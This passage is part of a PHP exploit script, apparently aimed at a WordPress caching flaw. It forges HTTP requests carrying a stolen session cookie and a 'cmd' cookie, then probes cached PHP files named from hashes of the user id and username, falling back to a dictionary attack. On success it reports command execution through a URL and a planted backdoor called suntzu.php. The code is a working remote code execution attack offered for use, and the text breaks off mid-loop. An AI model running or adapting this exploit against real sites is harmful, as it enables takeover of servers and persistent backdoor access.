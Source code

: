     $packet.="Cookie: ".$cookie."\r\n";
    $packet.="Connection: close\r\n\r\n";
    $packet.=$data;
    sendpacketii($packet);
    if (eregi("updated=true",$html)){echo "Done...\r\n";}
    else {die("Unable to update profile...");}

    echo "step 4 -> go to profile page to avoid cached files deletion...\r\n";
    $packet="GET ".$p."wp-admin/profile.php?updated=true HTTP/1.0\r\n";
    $packet.="PC_REMOTE_ADDR: 1.1.1.1\r\n";
    $packet.="Host: ".$host."\r\n";
    $packet.="Cookie: ".$cookie."\r\n";
    $packet.="Connection: close\r\n\r\n";
    sendpacketii($packet);
    if (eregi("200 OK",$html)){echo "Done...\r\n";}
    sleep(2);

    echo "step 5 -> check for an empty db password...\r\n";
    $check=array("users/".md5($user_id).".php",
             "userlogins/".md5(trim($username)).".php"
             );
    for ($i=0; $i<=count($check)-1; $i++)
    {
      $packet="GET ".$p."wp-content/cache/".$check[$i]." HTTP/1.0\r\n";
      $packet.="Host: ".$host."\r\n";
      $packet.="Cookie: cmd=".$cmd."\r\n";
      $packet.="Connection: close\r\n\r\n";
      sendpacketii($packet);
      if (eregi("*DL*",$html))
      {
        echo "Exploit succeeded...\r\n";$temp=explode("*DL*",$html);echo($temp[1]);echo"\r\nNow you can launch commands through the followig urls:\r\n http://".$host.$path."wp-content/cache/".$check[$i]."?cmd=ls%20-la\r\nalso, you should have a backdoor called suntzu.php in the same folder\r\n";die;
      }
    }

    if ($dict=='') {echo "exploit failed...\r\n";}
    else
       {
        echo "step 6 -> trying with dictionary attack...\r\n";
        if (file_exists($dict))
        {
          $fp=fopen($dict,"r");
          while (!feof($fp))
          {
            $word=trim(fgets($fp));
            $check=array("users/".md5($user_id.$word).".php",
                     "userlogins/".md5(trim($username).$word).".php"
                    );
            for ($i=0; $i<=count($check)-1; $i++)
            {
          echo "Trying with ".$check[$i]."\r\n";
              $packet="GET ".$p."wp-content/cache/".$check[$i]." HTTP/1.0\r\n";
              $packet.="Host: ".$host."\r\n";
              $packet.="Cookie: cmd=".$cmd."\r\n";
              $packet.="Connection: close\r\n\r\n";
              sendpacketii($packet);
              if (strstr($html,"*DL*"))
              {
                echo "Exploit succeeded...\r\n";fclose($fp);$temp=explode("*DL*",$html);echo $temp[1];echo"Now you can launch commands through the followig url:\r\n http://".$host.$path."wp-content/cache/".$check[$i]."?cmd=ls%20-la\r\nalso, you should have a backdoor called suntzu.php in the same folder\r\n";
            die;
              }
            }